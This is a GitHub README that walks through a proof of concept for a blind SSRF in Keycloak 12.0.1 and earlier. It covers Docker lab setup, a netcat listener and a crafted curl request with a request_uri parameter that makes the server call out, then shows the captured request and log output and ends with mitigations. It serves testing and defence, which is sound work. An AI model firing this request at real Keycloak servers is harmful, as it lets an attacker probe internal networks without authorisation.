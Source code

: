 # Keycloak Blind SSRF POC

This is a step by step documentation about how to test the blind ssrf found by Lauritz Holtmann and documented in his [blog post](https://security.lauritz-holtmann.de/post/sso-security-ssrf/).  
He also [briefly explained how to test it](https://twitter.com/_lauritz_/status/1347246269631238145). This is just a more detailed explanation.

All credits go to [Lauritz](https://twitter.com/_lauritz_).

# Setup 

I use Docker on Mac OSX here.

## Defender

You need a running Keycloak instance with a version <= 12.0.1.  
You can start a test instance with the following command. 
```
docker run -p 9990:9990 -p 8080:8080 -e KEYCLOAK_USER=admin -e KEYCLOAK_PASSWORD=admin jboss/keycloak:12.0.1
```

Visit http://localhost:8080/auth/admin/ in a browser and login with the username "admin" and the password "admin".

On the left side switch to the menu "Clients". This will bring you the the Clients overview.  
![Oauth2 client overview](https://github.com/ramshazar/keycloak-blind-ssrf-poc/blob/main/img/client_config.jpg?raw=true)

On the right side click on "Create" to create a new client. This will bring you to the client creation page.  
![Oauth2 client creation](https://github.com/ramshazar/keycloak-blind-ssrf-poc/blob/main/img/client_config_2.jpg?raw=true)

Choose a reasonable "Client ID" for your Oauth2 client. I go with "blueteamoauth2client" here (this is your <Keycloak_Client_ID>). If you use another Client ID, you have to change a query parameter in the attack http request. Click save to finalize the client setup.  
![Oauth2 client creation](https://github.com/ramshazar/keycloak-blind-ssrf-poc/blob/main/img/client_config_3.jpg?raw=true)

You will now see the settings of our new Oauth2 client.  
![Oauth2 client creation](https://github.com/ramshazar/keycloak-blind-ssrf-poc/blob/main/img/client_config_4.jpg?raw=true)

That is all for the defending part.

## Attacker

### Listener

You need a listener that is accepting the request that we want to trigger with our SSRF. So the ip and port must be reachable from the Keyclok server.  
You can not use localhost in that case, because from Keycloaks point of view localhost will be in the container itself.  
To retrieve the ip address in Mac OS you can use
```
for iface in $(ifconfig  | grep ^en | awk -F\: {'print $1'}); do ipconfig getifaddr $iface; done
```

I chose to start the listener on my host system on port 4444.
```
nc -v -l 4444
```

### Attack

In another shell you have to do one request with curl. You have to change that to your requirements.
```
curl "http://<Keycloak_host_or_ip>:<Keycloak_port>/auth/realms/<Keycloak_realm>/protocol/openid-connect/auth?scope=openid&response_type=code&redirect_uri=valid&state=a&nonce=b&client_id=<Keycloak_Client_ID>&request_uri=http://<Netcat_listener_ip>:<Netcat_listener_port>/"
```

The important parts here are:  
<Keycloak_host_or_ip> in my case "localhost". 
<Keycloak_port> in my case "8080". 
<Keycloak_realm> the realm used by Keycloak. The default is "master". That is what I use here.  
<Netcat_listener_ip> the ip address of the netcat listener. 
<Netcat_listener_port> the port of the netcat listener. 

So the query in my case is
```
curl "http://localhost:8080/auth/realms/master/protocol/openid-connect/auth?scope=openid&response_type=code&redirect_uri=valid&state=a&nonce=b&client_id=blueteamoauth2client&request_uri=http://192.168.178.222:4444/"
```

## Result

In the netcat listener you will see something like this.

```
bash-3.2$ nc -v -l 4444
GET / HTTP/1.1
Host: 192.168.178.222:4444
Connection: Keep-Alive
User-Agent: Apache-HttpClient/4.5.13 (Java/11.0.9.1)
Accept-Encoding: gzip,deflate

bash-3.2$
```

That means that the Keycloak instance did a http call to your listener.

There will also be entries about this in the Keycloak logs.
```
13:37:28,855 WARN  [org.keycloak.services] (default task-16) KC-SERVICES0097: Invalid request: java.net.SocketTimeoutException: Read timed out
	at java.base/java.net.SocketInputStream.socketRead0(Native Method)
	at java.base/java.net.SocketInputStream.socketRead(SocketInputStream.java:115)
(...)
13:37:28,877 WARN  [org.keycloak.events] (default task-16) type=LOGIN_ERROR, realmId=master, clientId=blueteamoauth2client, userId=null, ipAddress=172.17.0.1, error=invalid_request
```

# Mitigation

To mitigate that you could either. 
* Update Keycloak to version >= 12.0.2. 
* Make sure that a reverse proxy in front of Keycloak drops every request that includes the query parameter "request_uri".  

# Acknowledgements

Thanks to [Lauritz](https://twitter.com/_lauritz_) for finding and reporting the SSRF, for writing the blog post and also for the initial hint how to do this.  
Thanks to [Sebastian](https://groups.google.com/g/keycloak-dev/c/az-FYoI6WDg/m/emwMWfagAAAJ) for the idea to block requests with query parameter "request_uri" in the reverse proxy.
